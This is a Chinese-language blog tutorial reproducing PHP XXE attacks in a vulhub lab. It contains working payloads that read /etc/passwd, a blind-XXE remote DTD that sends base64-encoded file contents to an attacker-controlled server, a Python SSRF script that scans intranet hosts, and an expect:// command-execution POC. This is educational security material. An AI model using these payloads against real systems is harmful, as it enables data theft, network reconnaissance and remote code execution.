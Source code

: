```yaml
---
permalink: 2020/03/16/php-xxe/
tags:
  - XXE
layout: post
date: '2020-03-16 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: PHP XXE 利用过程演示
---
```


## XXE简介


在理解什么是XXE之前首先要知道什么是XML，XXE的全称为XML External Entity Injection，就是XML外部实体注入。XML是一种通用的数据交换语言，当处理数据时没有限制外部实体的使用，就可能会导致攻击者构造XML外部实体达到窃取数据，命令执行，钓鱼等行为。关于XML和XXE的详细介绍请查看[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)，本文重点通过实验介绍PHP XXE的几种利用。
本次演示使用的环境为：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)


## 获取敏感信息


通过XXE可以获取服务端的敏感信息，比如配置信息，系统文件，源代码等，有的环境是有回显的，有的是无回显的，有回显的相对比较容易操作。


### 有回显


先看源代码：


```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;

```


payload:


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>

```


通过此paylod就可以回显/etc/passwd的内容：


![20200317174048.png](../post_images/47ba6fd45a8114d855065444f390a75d.png)


### 无回显


无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 `blind XXE`.


源代码：


```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);

```


![2020%2003%2017%2020%2011%20{second.png](../post_images/25f6d54e273c982d04a99a9546d10303.png)


如图，如果直接执行的话是没有任何回显的。可以使用http协议将请求发送到远程服务器上，从而获取文件内容。


首先在远程服务器写入一个dtd文件，例如`test.dtd`,文件内容如下：


> `%` 号需要实体16进制编码为 `&#x25;`


```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.2.1/%file;'>">

```


然后利用如下payload：


```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>

```


就可以将数据外带到服务端：


![2020%2003%2017%2021%2006%20{second.png](../post_images/25f0e5cf3bcdc6420ff52fcc8bb04059.png)


执行逻辑大概如下：


从 payload 中能看到 连续调用了三个参数实体 `%remote`;`%int`;`%send`;，这就是我们的利用顺序，`%remote`先调用，调用后请求远程服务器上的`test.dtd` ，有点类似于将 `test.dtd`包含进来，然后 `%int` 调用 `test.dtd` 中的 `%file`, `%file` 就会去获取服务器上面的敏感文件，然后将 `%file` 的结果填入到 `%send` 以后(因为实体的值中不能有 `%`, 所以将其转成html实体编码 `&#x25`;)，我们再调用 `%send`; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


## SSRF


上面的两个实验中我们使用了file协议来读取文件内容或者通过http请求来外带信息，这种操作和SSRF很像，其实XXE也是SSRF攻击手法中的一种。接下来我们就演示使用SSRF探测内网主机开放端口和内网存活主机。


探测脚本如下，大家可根据实际情况修改脚本：


```python
_import requests


def buildxml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    sendxml(xml)

def sendxml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.123.128:8080/dom.php', data=xml, headers=headers, timeout=5).text
    codedstring = x.split(' ')
    if codedstring[7] == "host":
        print("主机不存活")
    else:
        print ("主机存活，探测到的端口服务为：%s"%(codedstring[7]))


for i in range(125, 135):
    try:
        i = str(i)
        ip = '192.168.123.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + ':22'+'/'
        print(string)
        buildxml(string)
    except:
        continue_

```


探测结果：


![2020%2003%2018%2014%2049%20{second.gif](../post_images/d984b0a9211f034cdefa9f1b0fc0fa1d.gif)


## expect RCE


当php安装了expect扩展后（此扩展默认未安装），攻击者就可以利用except进行远程代码执行的操作。


示例POC


```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>

```


除此外，XXE还可以造成DDOS,文件上传，钓鱼等攻击，由于环境原因，不便演示，在先知的[这篇文章](https://xz.aliyun.com/t/3357)中作者也有详细讲解，感兴趣的可以去看。


## 参考

- [浅谈XXE攻击](https://www.freebuf.com/articles/web/126788.html)
- [简析XXE](https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/)
- [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)
